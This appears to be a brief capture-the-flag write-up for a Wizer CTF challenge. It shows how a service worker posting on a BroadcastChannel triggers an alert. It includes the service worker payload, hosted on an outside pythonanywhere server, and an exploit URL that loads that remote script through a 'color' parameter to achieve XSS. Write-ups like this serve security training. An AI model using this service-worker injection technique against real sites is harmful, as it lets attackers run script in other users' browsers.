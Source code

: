 ![image](md/32e8eeae-7d95-4513-bead-2c04a566bb6e.webp)


this will listen for message event on BroadcastChannel('recipebook') and it will alert the `message` property of a message.

BroadcastChannel enables communication between different windows, tabs, or workers within the same origin. postMessage() method will trigger the 'message' event on other instances of the BroadcastChannel with the same name.

so in serviceWorker we create a new BroadcastChannel instance using the same name ('recipebook'): \
`const channel = new BroadcastChannel('recipebook');` \
Use the postMessage() method on the BroadcastChannel instance to send a message with a message property: \
`channel.postMessage({ message: 'Wizer' });`

serviceWorker payload:
```js
const channel = new BroadcastChannel('recipebook');
channel.postMessage({ message: 'Wizer' });
```

upload this file publicaly on internet: [https://aftab700.pythonanywhere.com/api/xss](https://aftab700.pythonanywhere.com/api/xss)

Payload:
```shell
https://events.wizer-ctf.com/?mode=sw&color=\\aftab700.pythonanywhere.com/api/xss
```

![image](md/69c5ccec-add7-4347-9f4e-3537df332f21.webp)
